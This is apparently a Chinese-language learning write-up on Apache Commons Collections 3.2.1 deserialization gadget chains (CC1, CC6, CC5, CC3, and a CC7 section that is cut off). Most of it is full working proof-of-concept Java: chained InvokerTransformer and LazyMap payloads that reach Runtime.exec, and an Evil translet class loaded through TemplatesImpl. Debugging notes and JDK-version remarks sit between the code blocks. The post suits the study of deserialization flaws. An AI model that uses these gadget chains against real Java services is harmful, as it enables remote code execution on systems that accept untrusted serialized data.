前言：主要是记录自己根据
利用链，然后编写poc及遇到的问题和解决，然后组合一条链子（没啥意义当练手
0x01 环境
<dependencies>
<!-- https://mvnrepository.com/artifact/junit/junit -->
<dependency>
<groupId>junit</groupId>
<artifactId>junit</artifactId>
<version>4.11</version>
<scope>test</scope>
</dependency>
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
</dependencies>
Transformer
接口
public interface Transformer {
Object transform(Object var1);
}
然后下面三个实现类，CC链子利用核心，都实现了Transformer方法，然后这里先做个简单定义吧
InvokerTransformer
不难看出是 通过反射调用obj方法，条件需要传入obj
方法名字，对应方法参数类型，最后参数 都可以初始化的时候传入
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
this.iMethodName = methodName;
this.iParamTypes = paramTypes;
this.iArgs = args;
}
public Object transform(Object input) {
if (input == null) {
return null;
} else {
try {
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
return method.invoke(input, this.iArgs);
}....
ConstantTransformer
返回初始化传入的obj
public ConstantTransformer(Object constantToReturn) {
this.iConstant = constantToReturn;
}
public Object transform(Object input) {
return this.iConstant;
}
ChainedTransformer
像一个链子for调用transform，上一个this.iTransformers[i]调用结果作为下一个object参数
这里着重看for的代码，执行一次后object值就被覆盖了，然后如果for没结束这里++i，这次transform中的object就是上次被覆盖的object值（这里起初没看懂，笨蛋）,for走完才会return
public ChainedTransformer(Transformer[] transformers) {
this.iTransformers = transformers;
}
public Object transform(Object object) {
for(int i = 0; i < this.iTransformers.length; ++i) {
object = this.iTransformers[i].transform(object);
}
return object;
}
对这几个有大概了解，我们这里可以写个demo
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer};
Transformer keyTransformer = new ChainedTransformer(transformers);
keyTransformer.transform("calc");
直接获取Runtime对象然后调用exec方法执行calc
问题1 Runtime不能序列化
Exception in thread "main" java.io.NotSerializableException: java.lang.Runtime
Runtime类是没有继承Serializable的，所以这里直接调用Runtime.getRuntime()肯定是不行的
解决：
可以用Runtime.class => 属于java.lang.Class => 继承java.io.Serializable
那么就是构造问题了，下面是demo2
Method getRuntime = Runtime.class.getMethod("getRuntime");
Runtime invoke = (Runtime) getRuntime.invoke(null);
invoke.exec("calc");
疑问1 invoke(null)
这里为什么是invoke(null),一般不都是invoke(obj)么
解答：
结论：因为getRuntime是静态方法
在 Java 中，**静态方法是属于类本身而不是类的实例（对象）的方法。**可以通过类名直接调用静态方法，而无需创建类的实例。
Runtime.class.getMethod("getRuntime")获取的是Runtime类的getRuntime方法
getRuntime.invoke(null)实际上就是通过反射调用静态方法getRuntime，传入null表示没有特定的对象实例参与调用，因为该方法本来就不需要对象实例来调用。
但是这里不能直接这样用看到**InvokerTransformer.transform**，这里传入的Runtime.class会变成Class<Class<Runtime>>相当于Class类他是没有getRuntime方法，所以我们还需要够着出这个结构Runtime.class.getMethod("getRuntime");但是getMethodClass类是有的所以构造这种形式getMethod.invoke(Runtime.class, "getRuntime",null);

demo3
因为每轮都要进行一次getClass()所以绕了这么大个圈子
//getMethod(String name, Class<?>... parameterTypes) ---- String.class, Class[].class是为了下一次getMethod调用
Method getMethod = Runtime.class.getClass().getMethod("getMethod", String.class, Class[].class);
Method getRuntime = (Method) getMethod.invoke(Runtime.class, "getRuntime",null);
Method myinvoke = getRuntime.getClass().getMethod("invoke", Object.class, Object[].class);
Runtime runtime = (Runtime) myinvoke.invoke(getRuntime, null, null);
Method exec = runtime.getClass().getMethod("exec", String.class);
exec.invoke(runtime, "calc");
CC利用demo
最终利用demo，对于CC来说能调用到transform就能RCE
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
keyTransformer.transform(null);
CommonsCollections1
TransformedMap利用链 8u71之前
利用链
sun.reflect.annotation.AnnotationInvocationHandler.readObject()
AbstractInputCheckedMapDecorator.setValue()
TransformedMap.checkSetValue()
ChainedTransformer.transform()
达到任意代码执行的目的
Java 8u71 以后由于 Java 官⽅修改了 sun.reflect.annotation.AnnotationInvocationHandler 的readObject函数：
改动后，不再直接使⽤反序列化得到的 Map 对象，⽽是新建了⼀个 LinkedHashMap 对象，并将原来的键值添加进去。
所以，后续对 Map 的操作都是基于这个新的 LinkedHashMap 对象，⽽原来我们精⼼构造的 Map 不再执⾏ set 或 put 操作，也就不会触发 RCE 了。
改后的readObject（这里是8u74版本）,可以看到setValue方法也没有了
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
ObjectInputStream.GetField var2 = var1.readFields();
Class var3 = (Class)var2.get("type", (Object)null);
Map var4 = (Map)var2.get("memberValues", (Object)null);
AnnotationType var5 = null;
try {
var5 = AnnotationType.getInstance(var3);
} catch (IllegalArgumentException var13) {
throw new InvalidObjectException("Non-annotation type in annotation serial stream");
}
Map var6 = var5.memberTypes();
LinkedHashMap var7 = new LinkedHashMap();
String var10;
Object var11;
for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
Map.Entry var9 = (Map.Entry)var8.next();
var10 = (String)var9.getKey();
var11 = null;
Class var12 = (Class)var6.get(var10);
if (var12 != null) {
var11 = var9.getValue();
if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
var11 = (new AnnotationTypeMismatchExceptionProxy(var11.getClass() + "[" + var11 + "]")).setMember((Method)var5.members().get(var10));
}
}
}
AnnotationInvocationHandler.UnsafeAccessor.setType(this, var3);
AnnotationInvocationHandler.UnsafeAccessor.setMemberValues(this, var7);
}
简单分析1 var6.get
这里我起初觉得var6.get这里可以用
var6 => var5的this.memberTypes => var3 =>AnnotationInvocationHandler的type属性
但是这里
var5 = AnnotationType.getInstance(var3);
var5的this.memberTypes我们是不可控的，所以这里利用不了
跟踪AnnotationType.getInstance
public static AnnotationType getInstance(Class<? extends Annotation> var0) { //1.这里要继承Annotation
JavaLangAccess var1 = SharedSecrets.getJavaLangAccess();
AnnotationType var2 = var1.getAnnotationType(var0); //2.这里类似转换类型
if (var2 == null) {
var2 = new AnnotationType(var0); //3.这里进行初始化，然后返回AnnotationType对象到return到上一层
if (!var1.casAnnotationType(var0, (AnnotationType)null, var2)) {
var2 = var1.getAnnotationType(var0);
assert var2 != null;
}
}
return var2;
}
查看AnnotationType初始化

var1是我们传入的class，我们主要看this.memberTypes.put属性，这里先是hashmap初始化大小，最后两行this.memberTypes.put()将var1的class的方法存入到memberTypes中。
有人可能会问为什么不能反射呢，这里调试进来点是readobject，这里我们只能控制var1，而且memberTypes值属于Hashmap
还是会调用到Hashmap.get的，这里常规使用就是取对应方法名字的Method，笔者积累的还多，不知道这个能利用不。
回归正题，我们需要找8u71以下版本复现
趣事1 jdk下载

不知道我的问题还是什么，反正就是我点击对应版本下载出来的版本和我不一样，比如这里我8u20啊，出来却是8u74！
然后抓包看了下，我8u20的下载链接确实不对，上面是其他版本的。然后我又去找了下其他版本下载链接，然后发现大概是下面这个
但是b02不是固定，每几个版本有不一样，最后爆破下这个b。
https://download.oracle.com/otn/java/jdk/8u73-b02/jdk-8u73-windows-x64.exe
/otn/java/jdk/7u21-b11/jdk-7u21-windows-x64.exe
/otn/java/jdk/8u40-b26/jdk-8u40-windows-x64.exe
/otn/java/jdk/8u20-b26/jdk-8u20-windows-x64.exe
如愿下到8u20嘿嘿

https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-windows-x64.exe
我们看到8u20的AnnotationInvocationHandler.readObject，调试发现有点问题

问题2 断点

这里可以看到有些断点段不到，这是因为是class文件的原因，源码不完整，我们需要去下载源码
解决：
再进入到相应JDK的文件夹中，里面本来就有个src.zip的压缩包，我们解压到当前文件夹下src，然后把之前源码包(jdk-f5d77a430a29.zip)中/src/share/classes下的sun文件夹拷贝到src文件夹中去。打开IDEA，选择文件 —>项目结构 —>SDK —>源路径 —>把src文件夹添加到源路径下，保存即可。



再看时发现源码都变了
正片开始
sun.reflect.annotation.AnnotationInvocationHandler.readObject()
AbstractInputCheckedMapDecorator.setValue()
TransformedMap.checkSetValue()
ChainedTransformer.transform()
达到任意代码执行的目的
这里先放poc，我是边调边改poc，感觉描述的话跟着poc好描述点
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.annotation.Annotation;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.Collections;
import java.util.HashMap;
import java.util.Map;
public class CC1_TransformedMap {
public static void main(String[] args) throws Exception {
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
HashMap hashmap = new HashMap();
hashmap.put("value",1111);
Map map = TransformedMap.decorate(hashmap,null,keyTransformer);
Object obj = declaredConstructor.newInstance(Target.class, map);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(obj);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
AnnotationInvocationHandler.memberValues我们传入的是TransformedMap,其有个decorate方法可以调用自构方法，返回其对象，主要留意map和valueTransformer

然后我们看AnnotationInvocationHandler.readObject的memberValues#entrySet方法

这里会跳到AbstractInputCheckedMapDecorator#entrySet，TransformedMap没这个方法调用其父类的，但是这里isSetValueChecking是调用TransformedMap自己，判断valueTransformer是否有值，有值=>true，这里进入if


这里主要是map#entrySet()，这里map得有值readObject才能进入for，这里map来自TransformedMap初始化调用super传入的

会写到AbstractMapDecorator的this.map中，而AbstractInputCheckedMapDecorator继承AbstractMapDecorator且此类中没自定义map这个属性，所以这里调用的是AbstractMapDecorator.map及TransformedMap初始化第一个参数，我们不能让其size为0，所以poc中要给其put一个值
疑问2 value
为什么put的key要是value


解答：
这里我们要进入if，memberType不能为null，memberTypes相当于map，而memberTypes的值我们可以发现是获取type中的方法(具体可以看下面type的分析)，这里我们选择的是Target.class其中方法只有一个value方法，memberTypes.key则是方法名字，name是获取我们设置hashmap中key，所以key必须是value
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Target {
ElementType[] value();
}
往下到memberValue.setValue，memberValue的值为AbstractInputCheckedMapDecorator$MapEntry

AbstractInputCheckedMapDecorator#setValue

疑问3 parent
这里parent是在readobject里调用entrySet中的EntrySet写入的，这里this还是TransformedMap，然后EntrySet覆写parent


最后到checkSetValue方法调用transform，成功利用！！

存档1 type
我们要保证readObject中annotationType = AnnotationType.getInstance(type);不报错
归根就是看我们传入的class是不是继承Annotation（其实就是判断是不是注解类型）

但是Annotation不能直接继承

关于
java.lang.annotation.Annotation接口的性质
- 是所有注解类型的通用接口：
- 这意味着所有自定义的注解类型在底层都与这个接口有一定的关联，但不是通过传统的继承方式建立这种关联。
- 它为注解类型提供了一些共同的行为规范，但本身并不直接定义一个具体的注解。
- 不能通过手动继承来定义注解类型：
- 如果一个普通的接口去继承这个
Annotation接口，不能将其变为一个注解类型。注解类型必须通过特定的方式（使用@interface关键字）来定义，而不是通过继承这个接口。
annotationType = AnnotationType.getInstance(type);
会返回一个AnnotationType对象，而memberTypes则是存储我们传入class中的方法

所以这里我们利用的条件：
- 是注解类型
- 含有方法
- 是jar中类
@Documented
@Inherited
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.TYPE)
public @interface IDProperty {
public String value();
}
这里我又找了个IDProperty成功执行命令
LazyMap
azyMap 的漏洞触发点和 TransformedMap 唯一的差别是，TransformedMap 是在写入元素的时候执行 transform，而 LazyMap 是在其 get 方法中执行的 factory.transform 。
利用链
Gadget chain:
ObjectInputStream.readObject()
AnnotationInvocationHandler.readObject()
Map(Proxy).entrySet()
AnnotationInvocationHandler.invoke()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 factory.transform 方法去获取一个值：

由于 AnnotationInvocationHandler 的 readObject 方法中并没有直接调用到 Map 的 get 方法。ysoserial 的解决方法是通过动态代理用 AnnotationInvocationHandler 生成 Proxy Map, 当 readObject 中调用这个 Map 的任意方法时, 触发代理类的 invoke 方法, 正好 AnnotationInvocationHandler invoke 中调用了 get 方法：

poc构造
import com.sun.javafx.beans.IDProperty;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import javax.annotation.PreDestroy;
import java.io.*;
import java.lang.annotation.Annotation;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.Collections;
import java.util.HashMap;
import java.util.Map;
public class CC1_LazyMap {
public static void main(String[] args) throws Exception {
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
HashMap hashmap = new HashMap();
hashmap.put("value",1111);
LazyMap lazymap = (LazyMap) LazyMap.decorate(hashmap, keyTransformer);
InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(IDProperty.class, lazymap);
Map map = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
Object obj = declaredConstructor.newInstance(IDProperty.class, map);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(obj);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
过程也很简单，自己稍微跟下就好。唯有有个动态代理，可以搜下相关文章，这里就不展开了，然后过程中有个问题
问题3 debug
这里我调试的时候，这里我点击堆栈中的AnnotationInvocationHandler类，会自动弹出几个计算器，后面map也会有entrySet这个key，进入不了这个if。然后AnnotationInvocationHandler中我不能打断点不然也会出现上面的情况。
总的来说，就是不会按照你设想的走，这里我们关掉一个设置就好了

解决：
这里关闭启用集合类替代视图，这个我就没深究为什么了，有懂的大哥就补充下！

CommonsCollections6
由于在 Java 8u71以后 sun.reflect.annotation.AnnotationInvocationHandler#readObject 的逻辑发生改变，导致CommonsCollections1 利用链无法使用，因为 sun.reflect.annotation.AnnotationInvocationHandler 的readObject函数不再直接使⽤反序列化得到的 Map 对象，⽽是新建了⼀个 LinkedHashMap 对象，并将原来的键值添加进去。
为解决Java⾼版本利⽤问题，实际上就是在找上下⽂中是否还有其他调⽤ LazyMap#get() 的地⽅。
看到最后一行会覆盖我们的Lazymap为LinkedHashMap

Gadget chain:
java.io.ObjectInputStream.readObject()
java.util.HashSet.readObject()
java.util.HashMap.put()
java.util.HashMap.hash()
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
org.apache.commons.collections.map.LazyMap.get()
ChainedTransformer.transform()
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
public class CC6 {
public static void main(String[] args) throws Exception {
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
LazyMap fistrmap = (LazyMap) LazyMap.decorate(new HashMap(),keyTransformer);
fistrmap.put("fistrmap",1111);
TiedMapEntry tiedMapEntry = new TiedMapEntry(fistrmap,"fistrmap");
HashMap map = new HashMap();
map.put(tiedMapEntry, "B");
HashSet hashSet = new HashSet();
Field map1 = hashSet.getClass().getDeclaredField("map");
map1.setAccessible(true);
map1.set(hashSet,map);
Field key = tiedMapEntry.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(tiedMapEntry,"kkkey");
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(hashSet);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
链子整体很简单，自己看利用链构造poc就行。
大概有两个地方要讲吧
- map传参
map看似没法控制实则不然，看到上一行e的获取是反序列化获取的，我们去看writeObject

上面e其实是map中的key序列化存储的，所以e我们是可控的，然后就有后面的链子调用了

可以看到key是我们精心设置的值

问题4 Lazymap.get
这里因为序列化的时候有HashMap#put这个操作会调用到最后利用点，但是这里还不能被调用，因为调用后序列化还没完成就会报错退出
但是key一样的话的，反序列化这里就会为true就不会进入if

解决：
这里就是先让其key一样，然后HashMap#put后跳过if，然后我们在利用反射修改key

CommonsCollections5
cc5 将 cc6 的入口点 HashMap 替换成了 BadAttributeValueExpException
Gadget chain:
javax.management.BadAttributeValueExpException.readObject()
TiedMapEntry.toString()
TiedMapEntry.getValue()
LazyMap.get()
ChainedTransformer.transform()
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
public class CC5 {
public static void main(String[] args) throws Exception {
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
LazyMap fistrmap = (LazyMap) LazyMap.decorate(new HashMap(),keyTransformer);
fistrmap.put("fistrmap",1111);
TiedMapEntry tiedMapEntry = new TiedMapEntry(fistrmap,"nono");
Class<?> aClass = Class.forName("javax.management.BadAttributeValueExpException");
Constructor<?> o = aClass.getDeclaredConstructor(Object.class);
o.setAccessible(true);
Object o1 = o.newInstance(11);
Field val = aClass.getDeclaredField("val");
val.setAccessible(true);
val.set(o1, tiedMapEntry);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(o1);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
没啥好说的，就一个点val用反射赋值
问题5 val
这里直接构造函数初始化，会提前调用toString且val会被覆盖成一段String，和rome链子一样

解决：
反射赋值val即可
CommonsCollections3
cc3需要添加javassist依赖
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
</dependency>
cc3 相比于前面的 cc 链有两个特性, 第一是它引入了 TemplatesImpl 来执行任意 java 字节码, 第二是它将 InvokerTransformer 换成了 InstantiateTransformer, 并通过 TrAXFilter 来引发 TemplatesImpl 链
前面讲过 InstantiateTransformer 可以实例化某个类, 这里实例化的是 TrAXFilter
它的构造方法会调用 templates.newTransformer(), 正好能与 TemplatesImpl 链串起来
因为出现 SerialKiller 反序列化过滤器，可以通过黑名单与白名单的方式来限制反序列化时允许通过的类。
所以 CommonsCollections3 是为了绕过⼀些规则对
InvokerTransformer的限制。没有使用到 InvokerTransformer 来调用任意方法，而是用到了另⼀个类，com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter。
改编CC1的LazyMap链子，实例化TrAXFilter
AnnotationInvocationHandler.readObject()
Map(Proxy).entrySet()
AnnotationInvocationHandler.invoke()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InstantiateTransformer.transform()
newInstance()
TrAXFilter#TrAXFilter()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
TemplatesImpl.defineTransletClasses
newInstance()
Runtime.exec()
先看到TrAXFilter，我们可以得到其
- 自构方法是public
- 没有继承Serializable
所以
-
反射时可以省去
setAccessible(true);这步操作 -
ConstantTransformer里要传入
TrAXFilter.class

然后我们看到InstantiateTransformer#transform，可以看到这里也正好符合我们传入TrAXFilter.class，然后实例化，且参数都可控
public Object transform(Object input) {
try {
if (input instanceof Class == false) {
throw new FunctorException(
"InstantiateTransformer: Input object was not an instanceof Class, it was a "
+ (input == null ? "null object" : input.getClass().getName()));
}
Constructor con = ((Class) input).getConstructor(iParamTypes);
return con.newInstance(iArgs);
然后我们开始构造poc，改下CC1的链子开始调试，这里给_name赋值

我们要_class[i] = loader.defineClass(_bytecodes[i]);加载字节码，给_bytecodes赋值字节码
这里注意一下_bytecodes的类型是byte[][]，他的一维数组的值就是一个类的字节码，可以存储多个类的字节码
private byte[][] _bytecodes = null;


问题6 NullPointerException
这里有个问题_auxClasses是null，这里直接put会报错，但是我们给_auxClasses赋值new Hashtable()也不行，因为com.sun.org.apache.xalan.internal.xsltc.runtime.Hashtable没有继承Serializable。
private Hashtable _auxClasses = null;

解决：
所以这里我们走另一条路，这里是获取加载后的_class[i]的父类名字和ABSTRACT_TRANSLET进行比较
superClass.getName().equals(ABSTRACT_TRANSLET)
private static String ABSTRACT_TRANSLET
= "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
这里我们让我们的恶意类继承AbstractTranslet即可
最后调用_class[_transletIndex].newInstance();触发命令执行
这里让我想起个东西forName
public static Class<?> forName(String name, boolean initialize, ClassLoader loader);
initialize 默认为 true, 即进行类初始化 (加载 static 类型的属性, 并且执行 static {} 块中的代码)
在上面loader.defineClass加载时并没有调用我static中代码，看了forName的代码后面是底层C代码了，感兴趣的可以研究下。然后附上最后的poc吧。
还有一点要提醒，因为是改编CC1的链子，所以jdk版本不能高了
import com.sun.javafx.beans.IDProperty;
import com.sun.org.apache.xalan.internal.xsltc.runtime.Hashtable;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class CC3 {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(Evil.class.getName());
byte[] code = clazz.toBytecode();
TemplatesImpl templates=new TemplatesImpl();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code});
//setFiled(templates,"_auxClasses",new Hashtable());
InstantiateTransformer invokerTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
ConstantTransformer constantTransformer = new ConstantTransformer(TrAXFilter.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer};
Transformer keyTransformer = new ChainedTransformer(transformers);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
HashMap hashmap = new HashMap();
hashmap.put("value",1111);
LazyMap lazymap = (LazyMap) LazyMap.decorate(hashmap, keyTransformer);
InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(IDProperty.class, lazymap);
Map map = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
Object obj = declaredConstructor.newInstance(IDProperty.class, map);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(obj);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
private static void setFiled(TemplatesImpl templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
Field declaredField = templates.getClass().getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,values);
}
}
Evil.class
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Evil extends AbstractTranslet {
static {
try {
Runtime.getRuntime().exec("calc");
} catch (IOException e) {
throw new RuntimeException(e);
}
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
}
CommonsCollections7
cc7 利用的是 hash 碰撞来触发 Hashtable 的 equals 方法, 进而调用 LazyMap get
这里注意是java.util.Hashtable别和CC3那个搞混了
Payload method chain:
java.util.Hashtable.readObject
java.util.Hashtable.reconstitutionPut
org.apache.commons.collections.map.LazyMap.equals
org.apache.commons.collections.map.AbstractMapDecorator.equals
java.util.AbstractMap.equals
org.apache.commons.collections.map.LazyMap.get
org.apache.commons.collections.functors.ChainedTransformer.transform
我们看到Hashtable.reconstitutionPut，根据利用链我们是要控制e.key这个值
问题7 e.key
不难看到e.key在readobject代码中是没地方赋值的，但是我们可以看到执行完for后对tab进行了赋值，但是已经过了for又有什么意义呢，我们跳到readobject代码中可以到reconstitutionPut方法外面也有一层for，这就有意思了，我们让第一次for时赋值，第二次for调用上次赋值不久行了嘛，还有个相关参数elements这个参数是Hashtable有几对的计数。


解决：
在put个值
Hashtable hashtable = new Hashtable();
hashtable.put("A", "B");
hashtable.put("2A", "2B");
可以发现这里e.key是我们上一次的key


问题8 hash&index
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();
Map lazyMap1 = LazyMap.decorate(innerMap1, tmp);
lazyMap1.put("yy", "yy");
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zz", "zz");
